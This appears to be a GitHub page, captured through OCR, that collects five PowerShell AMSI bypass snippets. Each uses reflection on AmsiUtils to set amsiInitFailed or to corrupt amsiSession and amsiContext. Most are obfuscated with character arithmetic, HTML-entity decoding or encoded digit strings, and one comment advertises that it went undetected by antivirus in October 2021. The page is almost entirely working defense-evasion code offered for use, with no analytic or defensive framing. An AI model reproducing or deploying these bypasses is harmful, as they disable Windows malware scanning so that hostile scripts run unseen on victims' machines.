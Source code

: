 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
$TZTTGYMX=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((11333-2257));[Ref].Assembly.GetType("System.Management.Automation.$([ChAr](65)+[Char]([BYte]0x6D)+[ChAR](44+71)+[ChAr]([bytE]0x69))Utils").GetField("$([Char]([ByTe]0x61)+[cHaR]([ByTe]0x6D)+[cHAR](2760/24)+[char](27+78))Session", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.$([ChAr](65)+[Char]([BYte]0x6D)+[ChAR](44+71)+[ChAr]([bytE]0x69))Utils").GetField("$([Char]([ByTe]0x61)+[cHaR]([ByTe]0x6D)+[cHAR](2760/24)+[char](27+78))Context", "NonPublic,Static").SetValue($null, [IntPtr]$TZTTGYMX);
```
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType($([SySteM.net.weBUtIlITy]::htmlDeCOde('&#83;&#121;&#115;&#116;&#101;&#109;&#46;&#82;&#101;&#102;&#108;&#101;&#99;&#116;&#105;&#111;&#110;&#46;&#66;&#105;&#110;&#100;&#105;&#110;&#103;&#70;&#108;&#97;&#103;&#115;')))).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.Type')), [Object]([Ref].Assembly.GetType('System.Management.Automation.'+$([SysTeM.nET.WEButiLIty]::HTmlDeCOdE('&#65;&#109;&#115;&#105;'))+'Utils')),('GetField')).Invoke(''+$([systEm.net.weBuTiLiTY]::HTmLdECOde('&#97;&#109;&#115;&#105;'))+'InitFailed',(('NonPublic,Static') -as [String].Assembly.GetType($([SySteM.net.weBUtIlITy]::htmlDeCOde('&#83;&#121;&#115;&#116;&#101;&#109;&#46;&#82;&#101;&#102;&#108;&#101;&#99;&#116;&#105;&#111;&#110;&#46;&#66;&#105;&#110;&#100;&#105;&#110;&#103;&#70;&#108;&#97;&#103;&#115;'))))).SetValue($null,$True);
``` 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```
--------------------------------------------
```powershell

$cyouegrv=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((9076*4948/4948));[Ref].Assembly.GetType("$([cHAR]([ByTE]0x53)+[CHaR](121+9-9)+[CHar](115+8-8)+[cHaR](116)+[cHar]([byTE]0x65)+[chAR]([BYte]0x6d)+[cHAR](46)+[CHaR]([ByTe]0x4d)+[CHaR](53+44)+[ChAr]([byte]0x6e)+[CHaR]([ByTe]0x61)+[ChaR](103+54-54)+[cHar](101*82/82)+[cHAR]([BYtE]0x6d)+[char](101*62/62)+[Char]([ByTE]0x6e)+[CHar](116)).Automation.$([CHar]([BYte]0x41)+[ChAr]([BytE]0x6d)+[ChaR](115)+[chaR](105*89/89)+[Char](85)+[Char]([ByTE]0x74)+[chAr]([ByTE]0x69)+[chaR](108+27-27)+[CHAr]([bytE]0x73))").GetField("$([cHAr](97)+[chaR](109)+[cHar]([BYTe]0x73)+[chaR]([bYTE]0x69)+[cHar]([bYte]0x53)+[cHAr](101+31-31)+[ChAR](115+34-34)+[cHAR]([byTE]0x73)+[chAr]([bytE]0x69)+[ChaR](111*53/53)+[chaR]([ByTE]0x6e))", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("$([cHAR]([ByTE]0x53)+[CHaR](121+9-9)+[CHar](115+8-8)+[cHaR](116)+[cHar]([byTE]0x65)+[chAR]([BYte]0x6d)+[cHAR](46)+[CHaR]([ByTe]0x4d)+[CHaR](53+44)+[ChAr]([byte]0x6e)+[CHaR]([ByTe]0x61)+[ChaR](103+54-54)+[cHar](101*82/82)+[cHAR]([BYtE]0x6d)+[char](101*62/62)+[Char]([ByTE]0x6e)+[CHar](116)).Automation.$([CHar]([BYte]0x41)+[ChAr]([BytE]0x6d)+[ChaR](115)+[chaR](105*89/89)+[Char](85)+[Char]([ByTE]0x74)+[chAr]([ByTE]0x69)+[chaR](108+27-27)+[CHAr]([bytE]0x73))").GetField("$([chaR]([byTe]0x61)+[chAR]([bYte]0x6d)+[Char]([byTe]0x73)+[cHaR]([ByTe]0x69)+[cHaR](43+24)+[cHAR]([BYte]0x6f)+[ChAR]([bYTe]0x6e)+[ChAr]([byTe]0x74)+[Char]([bYTE]0x65)+[char](120)+[cHaR]([Byte]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$cyouegrv);

#(09/06/2021)
```
------------
```powershell

#Twitter: @TihanyiNorbert  (No AV detecetion 2021 October)
#Based on the original work of  Matt Graeber @mattifestation 'amsiInitFailed' script.
$A="5492868772801748688168747280728187173688878280688776828"
$B="1173680867656877679866880867644817687416876797271"
[Ref].Assembly.GetType([string](0..37|%{[char][int](29+($A+$B).
substring(($_*2),2))})-replace " " ).
GetField([string](38..51|%{[char][int](29+($A+$B).
substring(($_*2),2))})-replace " ",'NonPublic,Static').
SetValue($null,$true)

```
